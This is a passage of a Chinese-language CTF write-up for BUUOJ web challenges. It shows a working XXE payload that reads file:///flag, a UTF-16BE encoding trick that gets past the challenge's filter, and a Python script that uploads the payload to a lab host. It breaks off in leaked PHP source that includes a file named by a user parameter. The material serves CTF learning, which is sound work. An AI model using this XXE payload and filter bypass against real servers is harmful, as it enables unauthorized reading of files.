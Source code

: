 直接传`roam1[]=1&roam2[]=2`，在**phpinfo**里面看到flag

## [CSAWQual 2019]Web_Unagi

根据题目看就是xxe，过滤了一些内容，编码绕过就行

```xml-dtd
<?xml version='1.0'?>
<!DOCTYPE users [
<!ENTITY xxe SYSTEM "file:///flag" >]>
<users>
    <user>
        <username>gg</username>
        <password>passwd1</password>
        <name>ggg</name>
        <email>alice@fakesite.com</email>  
        <group>CSAW2019</group>
        <intro>&xxe;</intro>
    </user>
    <user>
        <username>bob</username>
        <password>passwd2</password>
        <name> Bob</name>
        <email>bob@fakesite.com</email>  
        <group>CSAW2019</group>
        <intro>&xxe;</intro>
    </user>
</users>
```

执行

```bash
cat 1.xml | iconv -f UTF-8 -t UTF-16BE > x16.xml
```

```python
import requests

url = 'http://7e61d85a-9472-4c54-bf9c-98fdcc6f83d4.node4.buuoj.cn:81/upload.php'
files = {'doc':open('x16.xml','rb')}
data={'submit':'Upload'}
r=requests.post(url,files=files,data=data)
print(r.text)
```

不知道为什么python直接传编码后的payload不行，会报错

## [GYCTF2020]Easyphp

`www.zip`源码泄露

**index.php**

```php
<?php
require_once "lib.php";

if(isset($_GET['action'])){
	require_once(__DIR__."/".$_GET['action'].".php");
}
else{
	if($_SESSION['login']==1){
		echo "<script>window.location.href='./index.php?action=update'</script>";
	}
	else{
		echo "<script>window.location.href='./index.php?action=login'</script>";
	}
```